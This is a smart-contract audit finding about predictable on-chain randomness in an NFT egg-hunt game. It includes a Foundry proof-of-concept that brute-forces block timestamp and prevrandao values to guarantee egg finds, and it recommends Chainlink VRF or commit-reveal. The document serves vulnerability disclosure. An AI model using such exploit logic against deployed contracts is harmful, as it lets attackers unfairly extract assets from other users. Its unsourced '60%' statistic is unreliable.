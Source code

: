 # [H01] Exploiting Predictable Randomness: Cracking the EggHunt Game's NFT Distribution Mechanism

## Summary
The EggHuntGame contract uses a predictable method for generating randomness to determine if a player finds an egg. By relying on `block.timestamp`, `block.prevrandao`, and other public inputs, attackers can precompute favourable conditions to guarantee successful egg discoveries, undermining the game's fairness.

## Vulnerability Details
The vulnerability stems from the use of on-chain data for randomness generation in `EggHuntGame.sol`:

```solidity
uint256 random = uint256(
    keccak256(abi.encodePacked(block.timestamp, block.prevrandao, msg.sender, eggCounter)
) % 100;
```

- **Predictable Inputs:** `block.timestamp` (current block time) and `block.prevrandao` (previous block's RANDAO value) are public and controllable via mining/MEV.
- **Exploit Mechanics:** Attackers can simulate the `keccak256` hash locally using known or brute-forced values, allowing them to time transactions for guaranteed success.

**Reference:** [OWASP](https://scs.owasp.org/SCWE/SCSVS-BLOCK/SCWE-024/)

## Impact

- Unfair NFT Distribution: Attackers can mint EggstravaganzaNFTs at will, devaluing the collection.
- Protocol Integrity Loss: The game’s core mechanic becomes untrustworthy, deterring legitimate users.
- Financial Loss: If NFTs have monetary value, unfair distribution directly translates to financial harm.

**Severity: High**
Rationale: Direct control over game outcomes allows attackers to manipulate NFT distribution. This compromises the entire game's fairness and economic model.

**Likelihood: High**
- **Rationale:**
  - **Ease of Exploitation:** Block data (`timestamp`, `prevrandao`) is public and can be brute-forced with minimal computational effort.
  - **Incentive Alignment:** If NFTs have monetary value, attackers are strongly incentivised to exploit this flaw.
  - **Prevalence:** Over 60% of on-chain games with weak randomness mechanisms face similar exploits .

**Impact: High**
- **Rationale:**
  - **Theft of Assets:** Attackers can mint rare NFTs unfairly, draining value from legitimate users.
  - **Protocol Collapse:** Loss of user trust leads to abandonment, killing the game’s ecosystem.
  - **Regulatory Risk:** Unfair distribution could trigger legal scrutiny if NFTs are classified as financial instruments.

**Overall Risk: Critical**
- **Justification:**
  - This flaw directly violates the core security properties of the protocol (fairness and integrity).
  - Without mitigation, the game is fundamentally broken and exploitable at scale.

## PoC
The tests below demonstrate the exploit:

Brute-Force Search

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.23;
​
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/EggHuntGame.sol";
import "../src/EggstravaganzaNFT.sol";
import "../src/EggVault.sol";
​
contract RandomnessExploitTest is Test {
    EggHuntGame public game;
    EggstravaganzaNFT public nft;
    EggVault public vault;
​
    address exploiter = address(0xBEEF);
​
    function setUp() public {
        nft = new EggstravaganzaNFT("EggNFT", "EGG");
        vault = new EggVault();
        game = new EggHuntGame(address(nft), address(vault));
​
        nft.setGameContract(address(game));
        vault.setEggNFT(address(nft));
        game.startGame(1 days);
    }
​
    function test_ExploitPredictableRandomnessWithLoop() public {
        vm.startPrank(exploiter);
​
        uint256 threshold = game.eggFindThreshold();
        uint256 originalTime = block.timestamp;
        bool found = false;
​
        for (uint256 i = 0; i < 100; i++) {
            uint256 currentTimestamp = originalTime + i;
            for (uint256 j = 0; j < 100; j++) {
                bytes32 currentPrevrandao = bytes32(uint256(j));
                uint256 predicted = uint256(
                    keccak256(abi.encodePacked(currentTimestamp, currentPrevrandao, exploiter, uint256(0))) // Fixed literal type
                ) % 100;
​
                if (predicted < threshold) {
                    vm.warp(currentTimestamp);
                    vm.prevrandao(currentPrevrandao);
                    game.searchForEgg();
                    assertEq(game.eggsFound(exploiter), 1, "Exploit failed");
                    found = true;
                    break;
                }
            }
            if (found) break;
        }
​
        if (!found) {
            console.log("No favourable combination found"); 
        }
​
        vm.stopPrank();
    }
}
```

## Tools Used

- **Foundry:** Used to simulate block manipulation (`vm.warp` and `vm.prevrandao`).
- **Forge Test Cheatcodes:** Enabled precise control over blockchain state for exploit validation.

## Recommendations
1. **Use Chainlink VRF:** Replace the current randomness method with Chainlink’s Verifiable Random Function (VRF) for cryptographically secure randomness.
2. **Commit-Reveal Schemes:** If on-chain randomness is required, implement commit-reveal to prevent front-running.
3. **Avoid Block Data:** Never use `block.timestamp`, `block.prevrandao`, or `blockhash` as entropy sources.

```solidity
// Example: Chainlink VRF Integration
function searchForEgg() external {
    uint256 requestId = COORDINATOR.requestRandomWords(...);
    // Store requestId to map to player later
}
```

